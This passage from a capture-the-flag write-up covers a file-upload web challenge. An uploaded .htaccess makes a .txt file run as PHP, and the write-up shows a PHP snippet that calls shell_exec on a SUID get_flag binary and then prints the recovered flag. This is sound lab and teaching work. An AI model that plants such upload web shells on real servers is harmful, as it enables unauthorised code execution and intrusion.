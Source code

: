 after uploading the .htaccess file and .backdoor.txt, an attacker can navigate to the following:

https://art-contest-974780027560.us-east5.run.app/uploads/fb14797cfe048e2eab6f43d87ba82592/.call_get_flag.txt

They will get this error:

![](Pasted_image_20250324173941.png)

```
Error opening file: No such file or directory 
```

#### Step 5

After reading the source file of get_flag.c, or downloading the file by navigating to
https://art-contest-974780027560.us-east5.run.app/get_flag and testing it, the attacker realizes they need to execute the SUID binary in the diretory `/var/www/html` since it is reading `./flag.txt`, not `/var/www/html/flag.txt`. they can create another file and upload it named `.call_get_flag_in_dir.txt`:

```php
<?php
chdir('/var/www/html');
echo(shell_exec('./get_flag'));
?>
```

https://art-contest-974780027560.us-east5.run.app/uploads/fb14797cfe048e2eab6f43d87ba82592/.call_get_flag_in_dir.txt

![](Pasted_image_20250324173903.png)

```
wctf{m1ss3d_m3_chm0d_:3}
```

---

## Lost 2
